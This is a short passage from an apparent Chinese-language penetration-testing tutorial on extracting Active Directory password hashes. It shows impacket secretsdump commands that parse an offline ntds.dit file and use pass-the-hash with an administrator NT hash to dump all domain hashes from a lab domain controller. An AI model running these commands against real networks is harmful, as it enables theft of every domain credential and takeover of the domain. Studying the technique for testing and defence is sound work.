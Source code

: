 ## NDTS Hash

### Impacket

我们可以使用 impacket 工具包中的 secretsdump 来解析 ntds.dit 文件并导出散列：

```plain
./secretsdump.py -system /root/system.hive  -ntds /root/ntds.dit LOCAL
```

[![](assets/1706090550-5353b58305954e421ed579c5b1bb41b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100114-748765ce-ba5c-1.png)  
impacket 还可以直接通过用户名和散列值进行验证，从远程域控制器中读取 ntds.dit 并转储域散列值：

```plain
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:41945356c1b2adde08c00d0e48515b7e -just-dc hacke.testlab/administrator@192.168.188.2
```

[![](assets/1706090550-bbbf8aa27b33d3ff81ef65a8c43ed738.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100138-829f8b5a-ba5c-1.png)
